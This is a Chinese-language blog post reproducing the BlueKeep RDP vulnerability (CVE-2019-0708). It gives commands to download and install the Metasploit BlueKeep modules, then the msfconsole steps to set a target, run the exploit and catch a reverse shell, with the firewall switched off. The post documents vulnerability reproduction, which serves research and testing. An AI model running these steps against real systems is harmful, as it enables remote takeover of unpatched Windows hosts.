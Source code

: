 ```yaml
---
title: CVE-2019-0708漏洞复现
date: 2019-09-07 11:52:31
tags:
  - CVE
  - Vulnerability
categories:
  - Vulnerability-Recurrence
---
```


具体PR: https://github.com/rapid7/metasploit-framework/pull/12283

<!-- more -->

## 准备操作

### Linux
直接看 http://blog.xkkhh.cn/archives/535

### MacOS
```
# Download
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/lib/msf/core/exploit/rdp.rb
wget https://github.com/rapid7/metasploit-framework/raw/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/auxiliary/scanner/rdp/rdp_scanner.rb
wget https://github.com/rapid7/metasploit-framework/raw/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb
wget https://github.com/rapid7/metasploit-framework/raw/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/auxiliary/scanner/rdp/cve_2019_0708_bluekeep.rb

# Replace
sudo cp rdp.rb /opt/metasploit-framework/embedded/framework/lib/msf/core/exploit/rdp.rb
sudo cp rdp_scanner.rb /opt/metasploit-framework/embedded/framework/modules/auxiliary/scanner/rdp/rdp_scanner.rb
sudo cp cve_2019_0708_bluekeep.rb /opt/metasploit-framework/embedded/framework/modules/auxiliary/scanner/rdp/cve_2019_0708_bluekeep.rb
sudo cp cve_2019_0708_bluekeep_rce.rb /opt/metasploit-framework/embedded/framework/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb
```

注意 还需要关闭系统防火墙 因为用到了反弹Shell
<img width="668" src="https://user-images.githubusercontent.com/19854253/64469557-c8f6d600-d166-11e9-935f-85e65a68ca18.png">

## Exploit
开启`msfconsole`
保险起见执行`reload_all`
Load module `use exploit/windows/rdp/cve_2019_0708_bluekeep_rce`
接下来 `msf`基本操作
查看配置`info`
设置目标IP `set RHOSTS <target ip>`
有需要的话需要设置`target`
```
Exploit targets:

   Id  Name
   --  ----
   0   Automatic targeting via fingerprinting
   1   Windows 7 SP1 / 2008 R2 (6.1.7601 x64)
   2   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Virtualbox)
   3   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare)
   4   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Hyper-V)
```

最后 `run`，遇到蓝屏 多试几次 或者 是哪一步配置出错

![成功](https://user-images.githubusercontent.com/19854253/64469627-b5983a80-d167-11e9-81ce-d75efc5bbcdf.png)


## 自己踩的坑
1. 需要覆盖的文件没有全覆盖到 -> exploit的时候一直蓝屏
2. 系统防火墙没有关 -> 一直拿不到反弹Shell (没想到竟然会经过防火墙 以为是一个机子的内部操作)













